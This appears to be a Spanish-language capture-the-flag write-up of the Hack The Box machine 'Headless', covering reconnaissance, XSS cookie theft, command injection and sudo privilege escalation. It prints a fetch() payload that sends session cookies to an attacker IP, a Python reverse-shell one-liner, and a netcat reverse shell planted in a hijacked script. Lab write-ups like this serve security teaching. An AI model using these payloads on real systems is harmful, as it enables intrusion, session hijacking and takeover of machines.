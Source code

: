 ```yaml
---
title: WriteUp Headless - Hack the box
date: 2024-07-10 12:50 +/-0000
categories: Linux HTB easy
tags:
  - Hackthebox
  - Writeups
  - Linux
author: Fyzethh
toc: true
img_path: /assets/img/avatar.jpg
---
```


# Fase de reconocimiento
```bash
sudo nmap -Pn -sV -n 10.10.11.8 -vvv -oN nmap.result.ports
```
![reconocimiento](/assets/img/captures/headless/Screenshot_2024-07-10_23_17_24.png)

como se aprecia en la imagen tenemos abierto el puerto **22** y puerto **5000**
si analizamos la página web veremos que es una página que está en construcción.
Existe un botón el cual nos envía a un formulario para poder contactarse con soporte.

![vista-web1](/assets/img/captures/headless/Screenshot_2024-07-10_23_19_33.png)
![vista-web2](/assets/img/captures/headless/Screenshot_2024-07-10_23_19_38.png)


al analizar el formulario y hacer pruebas en burpsuite, nos damos cuenta de que la página
es vulnerable a XSS reflected.
![vista-reflected-xss](/assets/img/captures/headless/Screenshot_2024-07-11_00_07_30.png)

interceptaremos con burpsuite las peticiones e intentaremos robar la cookie de sesión
con el siguiente código en javascript

Primero debemos levantar un servidor web en python para poder recibir el valor de la cookie

```bash
python3 -m http.server 80
```

El siguiente código lo pondremos en header **user-agent** y en el campo del formulario **message**

```javascript
<script>fetch("http://10.10.14.28/?cookie="+document.cookie)</script>
```

![vista-burp](/assets/img/captures/headless/Screenshot_2024-07-11_00_07_37.png)



tenemos que ingresar nuestro payload xss en el user-agent y en el body, como se muestra en a siguiente imagen y esperar a que el mensaje enviado a soporte
sea leído, debe haber una tarea programada que revisa cada cierto tiempo los mensajes enviados hacia el servidor.

![http-server](/assets/img/captures/headless/Screenshot_2024-07-11_08_02_25.png)

Como se aprecia en la imagen en nuestro servidor python levantado locamente recibimos la cookie
ahora tenemos que editar nuestra cookie con el valor de la cookie robada, en la fase de reconocimientos
nos habíamos encontrado la ruta /dashboard, si vamos a esta ruta con nuestra nueva cookie veremos lo siguiente

![admin-dashboard](/assets/img/captures/headless/Screenshot_2024-07-11_08_12_41.png)

en esta página podemos enviar una fecha, también podemos concatenar un comando por ejemplo el comando id:

```html
date=2023-09-15;id
```
![burp-vuln](/assets/img/captures/headless/Screenshot_2024-07-11_08_15_42.png)

 como se puede apreciar obtenemos respuesta del comando id, ahora vamos a utilizar python para enviarnos una shell reversa nuestra ip
 en el puerto 1234
 
 ```html
date=2023-09-15;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

y obtenemos acceso al sistema con el usuario "dvir" y podemos ver la flag

![vista-flag-user](/assets/img/captures/headless/Screenshot_2024-07-11_08_41_10.png)

**Elevación de privilegios**

si usamos el comando sudo -l para ver que programas podemos listar los privilegios y comandos que un usuario tiene permitidos ejecutar con privilegios elevados (sudo)
podemos ver que podemos ejecutar un binario que está en la ruta /usr/bin/syscheck

![vista-elevation-priv](/assets/img/captures/headless/Screenshot_2024-07-11_08_42_05.png)


al observar el script podemos ver que se ejecuta un script llamado  ./initdb.sh
como se ejecuta en una ruta absoluta, crearemos un archivo con el mismo nombre initdb.sh y agregaremos una llamada de netcat hacia nuestra
IP de la siguiente forma y le daremos permisos de ejecución al script.
```bash
echo "nc -e /bin/sh 10.10.14.28 4444" > initdb.sh
chmod +x initdb.sh
```
al ejecutar el /usr/bin/syscheck como super ussuario (sudo), el user root aplicara la llamada hacia nuestra maquina atacante
y obtenemos una shell reversa, de esta forma hemos elevado nuestro privilegio y ahora somos el usuario root


![vista-elevation-priv-root](/assets/img/captures/headless/Screenshot_2024-07-11_09_06_59.png)
